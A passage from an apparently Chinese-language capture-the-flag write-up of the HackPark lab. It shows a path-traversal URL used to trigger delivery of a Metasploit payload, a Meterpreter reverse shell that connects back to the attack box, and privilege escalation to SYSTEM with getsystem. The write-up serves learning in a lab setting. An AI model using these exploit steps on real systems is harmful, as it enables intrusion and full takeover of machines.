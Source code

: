 **图 11**

然后，我通过从我的攻击箱的浏览器访问以下 URL: `http://hackpark.thm/?theme=../../App_Data/files`触发了该漏洞，并得到以下页面:

![](img/671b5c8c4113bb96c058cab978b61195.png)

**图 12**

之后，来自目标机器的 Meterpreter 会话出现在我面前:

```
**msf6 exploit(windows/misc/hta_server) >** [*] hackpark.thm    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to hackpark.thm
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> hackpark.thm:49423 ) at [redacted] -0400**msf6 exploit(windows/misc/hta_server) >**
```

## 后剥削

在利用目标机器并获得那个 Meterpreter 反向 shell 后，我开始与它进行交互，并自动用`getsystem`获得系统权限:

```
**msf6 exploit(windows/misc/hta_server) > sessions -i 1**
[*] Starting interaction with 1...**meterpreter > getsystem**
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
**meterpreter >**
```

**注意**我应该利用一个服务来获得系统特权，但这正是这个房间所期待的，就像一部好的喜剧，我喜欢以这样一种方式来挑战我的读者的“第二次猜测”😉
